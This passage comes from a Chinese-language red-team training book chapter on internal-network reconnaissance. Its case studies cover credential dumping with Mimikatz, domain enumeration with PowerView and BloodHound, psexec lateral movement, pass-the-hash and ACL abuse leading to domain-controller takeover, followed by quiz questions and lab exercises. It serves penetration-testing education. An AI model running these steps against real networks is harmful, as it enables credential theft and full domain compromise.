用抓到的密码试试其他机器的RDP，
发现有3台机器用了同样的密码！

**第七步：扩大战果**
登录那3台机器，
继续收集信息和凭据，
又找到了新的密码，
又能登录更多机器...

**总结：**
- 工作组环境，密码复用很常见
- 先收集本机凭据，再尝试横向
- 一步步滚雪球
- 信息收集贯穿始终

---

### 案例2：域环境信息收集（PowerView+BloodHound）

**场景：**
拿到了一台域内机器的Shell，
当前用户是普通域用户。

**信息收集流程：**

**第一步：确认域环境**
```cmd
systeminfo | findstr Domain
# Domain: test.com

echo %LOGONSERVER%
# \\DC01
```
确认是域环境，域名test.com，域控是DC01。

**第二步：基本域信息收集**
```cmd
:: 域用户数
net users /domain | find /c /v ""

:: 域计算机数
net view /domain:test.com | find /c /v ""

:: 域管理员
net group "domain admins" /domain
```
大概有200多个用户，100多台机器。

**第三步：用PowerView深入收集**
上传PowerView.ps1，加载执行。

```powershell
# 域管理员列表
Get-NetGroupMember -GroupName "Domain Admins" | select MemberName

# 所有SPN
Get-NetUser -SPN | select name

# 查找本地管理员访问
Find-LocalAdminAccess
# 发现当前用户对好几台机器有本地管理员权限
```

**第四步：用BloodHound可视化**
上传SharpHound，收集数据：
```powershell
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\temp\
```

把生成的zip下载下来，
导入BloodHound。

一分析，哇！
发现了好几条到域管理员的路径：
1. 当前用户 → 某台机器的本地管理员 → 那台机器上有域管理员登录 → 偷令牌/抓Hash → 域管理员
2. 有几个SPN可以Kerberoast，其中一个是服务管理员 → 破解后可能有高权限
3. ...

**第五步：制定攻击路径**
根据BloodHound的分析，
选择一条最容易的路径，
开始横向移动。

**总结：**
- 域环境信息收集用PowerView和BloodHound效率很高
- BloodHound能直观展示攻击路径
- 信息收集清楚了，后面的攻击就很顺利
- 事半功倍

---

### 案例3：内网凭据收集滚雪球

**场景：**
护网行动中，
通过外部Web漏洞拿到了
一台Web服务器的Shell。

**流程：**

**第一步：Web服务器信息收集**
- 系统：Windows Server 2012 R2
- 权限：IIS应用池
- IP：10.0.1.20
- 域名：corp.com（已加入域）

**第二步：本地提权**
用Juicy Potato提权到System。

**第三步：抓取凭据**
用Mimikatz抓密码，
抓到了：
- 本地管理员的NTLM Hash
- 一个域用户（webadmin）的明文密码
- 还有几个其他服务的密码

**第四步：用webadmin账号横向移动**
webadmin是域用户，
用这个账号：
- 枚举域内机器
- 看看对哪些机器有权限
- 发现webadmin对另外3台Web服务器有管理员权限

**第五步：登录另外3台Web服务器**
用psexec登录过去，
每台机器上抓密码。
又抓到了：
- 数据库管理员的密码
- 另一个服务账号的密码

**第六步：用数据库管理员账号**
用数据库管理员的账号
登录数据库服务器，
又抓到了更多凭据...

**第七步：找到域管理员**
在某台服务器上发现了
域管理员的登录会话，
用Mimikatz抓到了域管理员的Hash。

**第八步：登录域控**
用域管理员的Hash，
Pass-the-Hash登录域控，
拿到整个域的控制权。

**总结：**
- 内网渗透很多时候就是凭据的滚雪球
- 每攻破一台机器，就收集上面的凭据
- 用收集到的凭据去打更多机器
- 一步一步，直到拿下域控
- 信息收集和凭据收集贯穿整个过程

---

### 案例4：多网段内网探测

**场景：**
拿到了一台双网卡机器的Shell，
这台机器连接了两个网段，
相当于一个跳板。

**信息收集流程：**

**第一步：查看网络接口**
```cmd
ipconfig /all
```
发现两个网卡：
- 网卡1：192.168.1.100（办公网）
- 网卡2：10.0.0.50（服务器区）

两个网段！
这台机器是跨网段的。

**第二步：查看路由表**
```cmd
route print
```
看看能访问哪些网段。

**第三步：分别探测两个网段**
- 192.168.1.0/24 — 办公网，很多PC
- 10.0.0.0/24 — 服务器区，各种服务器

**第四步：服务器区重点探测**
服务器区一般更有价值，
重点扫服务器区。

发现：
- 10.0.0.10 — 域控
- 10.0.0.20 — 文件服务器
- 10.0.0.30 — 数据库服务器
- 10.0.0.40 — Web服务器
- 10.0.0.50 — 我们的跳板机
- ...

**第五步：制定下一步计划**
- 先拿数据库服务器（价值高）
- 再拿文件服务器（可能有很多敏感文件）
- 最后打域控

**总结：**
- 双网卡/多网卡机器很重要，是很好的跳板
- 一定要检查有几个网卡、几个网段
- 不同网段的价值不一样，要有重点
- 信息收集要全面，不能只看一个网段

---

### 案例5：通过BloodHound找到域管理员路径

**场景：**
护网行动中，
拿到一个普通域用户的权限，
想用BloodHound找出攻击路径。

**过程：**

**第一步：收集域信息**
用SharpHound收集数据：
```powershell
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\temp\
```

**第二步：导入BloodHound**
把数据下载下来，导入BloodHound。

**第三步：分析最短路径**
用BloodHound的查询功能：
`Find Shortest Path from Owned Principals to Domain Admins`

结果出来了，有一条路径：
```
当前用户 → 有GenericAll权限 → 某用户 → 该用户是某组的成员 → 该组对某台机器有GenericAll → 那台机器有域管理员会话
```

看起来有点绕，
但确实是一条可行的路径。

**第四步：分析这条路径**
1. 当前用户对用户A有GenericAll权限（可以改密码）
2. 用户A是组B的成员
3. 组B对机器C有GenericAll权限
4. 机器C上当前有域管理员登录

**第五步：按路径攻击**
1. 重置用户A的密码（因为我们有GenericAll）
2. 以用户A的身份登录
3. 利用对机器C的GenericAll权限，在机器C上执行代码
4. 在机器C上抓取域管理员的Hash或票据
5. 用域管理员的权限登录域控

**第六步：拿下域控**
按照路径一步步打过去，
成功拿到了域控的权限。

**总结：**
- BloodHound能帮你找到肉眼看不到的攻击路径
- 域内的ACL关系非常复杂，可视化工具很重要
- 有时候最短路径不一定最容易走，要综合评估
- 信息收集和分析到位，渗透就成功了一半

---

## ✏️ 课后习题

### 一、选择题（10道）

1. 内网渗透的第一步是什么？
   A. 漏洞利用
   B. 提权
   C. 信息收集
   D. 横向移动

2. Windows中，查看当前用户所有信息（包括特权）的命令是？
   A. whoami
   B. whoami /all
   C. net user
   D. id

3. 以下哪个工具是用来收集域信息并可视化的？
   A. Mimikatz
   B. Nmap
   C. BloodHound
   D. Metasploit

4. Windows中，查看域内所有用户的命令是？
   A. net users
   B. net users /domain
   C. net user /domain
   D. net accounts

5. 以下哪个是Kerberoast攻击的目标？
   A. 没有SPN的用户
   B. 注册了SPN的用户
   C. 所有域用户
   D. 域管理员

6. 抓取Windows内存中的密码，最常用的工具是？
   A. Nmap
   B. PowerView
   C. Mimikatz
   D. BloodHound

7. 内网中，哪个协议的端口445常被用来进行永恒之蓝漏洞利用？
   A. HTTP
   B. SSH
   C. SMB
   D. RDP

8. 以下哪种不是常用的存活主机探测方法？
   A. ICMP Ping扫描
   B. ARP扫描
   C. 端口扫描
   D. SQL注入

9. PowerView是用来做什么的？
   A. 端口扫描
   B. 收集Active Directory信息
   C. 破解密码
   D. 漏洞利用

10. 关于内网信息收集，以下说法错误的是？
    A. 信息收集越全面，渗透越容易
    B. 只需要收集目标机器的信息，不用管其他机器
    C. 凭据收集是内网信息收集的重要部分
    D. 域环境需要专门收集域信息

### 二、填空题（5道）

1. Windows中，查看所有网络接口配置的命令是 `______ /all`。
2. 查看ARP表的命令是 `______ -a`。
3. 常用的端口扫描神器是 ______（填工具名）。
4. 域环境中，用来可视化域关系的常用工具是 ______。
5. Windows中抓取内存密码的神器是 ______。

### 三、简答题（5道）

1. 内网信息收集主要收集哪些方面的信息？为什么信息收集很重要？
2. 如何判断一台Windows机器是否加入了域？列举至少3种方法。
3. 常用的存活主机探测方法有哪些？各有什么优缺点？
4. Windows平台上，可以收集到哪些类型的凭据？列举至少5种。
5. 简单描述BloodHound的作用和使用流程。

### 四、实操题（5道）

1. 在你的实验环境中，找一台Windows机器，练习本机信息收集（用命令行手动收集一遍）。
2. 配置一个小型内网环境（至少3台机器），练习存活主机探测和端口扫描。
3. 如果有域环境，练习使用PowerView收集域信息。
4. 练习使用Mimikatz抓取Windows密码（在测试环境中）。
5. 搭建一个测试域环境，练习使用BloodHound（SharpHound采集 + BloodHound分析）。

---

## 📖 本章小结

::: tip 总结一下
这一章我们学习了内网信息收集，
内容非常多，也非常重要。

**重点回顾：**

1. **本机信息收集**
   - 基本信息、用户权限、网络信息
   - 进程服务、计划任务
   - Windows和Linux各有不同的命令
   - 可以用自动化工具（WinPEAS、LinPEAS等）

2. **网络信息收集**
   - 网段发现（看网卡、看路由）
   - 存活主机探测（ICMP、ARP、端口扫描）
   - 端口扫描（Nmap、Masscan等）
   - 服务识别和漏洞探测

3. **域环境信息收集**
   - 判断是否在域内
   - 基本域信息（用户、计算机、组、域控）
   - PowerView的使用
   - BloodHound的使用（非常重要！）

4. **凭据收集**
   - 为什么凭据收集很重要
   - Windows凭据收集（Mimikatz、LaZagne等）
   - Linux凭据收集
   - 哈希传递和票据传递

5. **五个实战案例**
   - 工作组环境信息收集
   - 域环境信息收集
   - 凭据滚雪球
   - 多网段探测
   - BloodHound找路径

**记住：**
内网渗透，
信息收集是第一步，
也是最重要的一步。
信息收集做得好，
后面的渗透就事半功倍。

下一章我们学习横向移动技术，
看看收集到信息之后，
怎么从一台机器打到另一台机器。

准备好了吗？
继续前进！
:::

---

## 🔗 相关链接

- [⬅️ 上一章：---](/redteam/day052-senior-Linux提权技术)
- [➡️ 下一章：---](/redteam/day054-senior-内网信息收集)
- [📖 返回全书目录](/redteam/day118-toc-全书目录)
